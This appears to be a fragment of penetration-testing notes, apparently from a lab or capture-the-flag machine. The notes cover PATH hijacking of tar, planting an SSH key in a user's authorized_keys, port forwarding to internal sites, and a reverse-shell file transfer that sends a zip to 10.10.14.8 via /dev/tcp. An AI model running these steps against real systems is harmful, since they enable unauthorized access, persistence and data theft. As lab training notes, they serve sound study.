 ```
echo $PATH
```

```
chmod +x tar
```

```
which tar
```

### Resolve setresuid issue

Generate an ssh key for initial access user and ssh in 

Generate ssh key for matt on kali
```
ssh-keygen -f matt
```

```
chmod 600 matt
```

Set up simple python server to transfer the ssh public key to matt's .ssh directory into `authorized_keys`
## Transfer Files 
On Kali
```
nc -lvnp 9001 > RT30000.zip 
```

On rev shell 
```
cat RT30000.zip > /dev/tcp/10.10.14.8/9001
```

## Discover Additional Sites 

Check 
```
/etc/apache2/sites-enabled
```

Set up SSH port forward to reach site from initial access shell 
```
ssh -L 8000:127.0.0.1:80
```

From Kali box - port 8000 should be listening & remote site accessible via web browser
```
ss -lnpt | grep 8000
```


# Windows Privilege Escalation
## ✨Resources✨
- [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
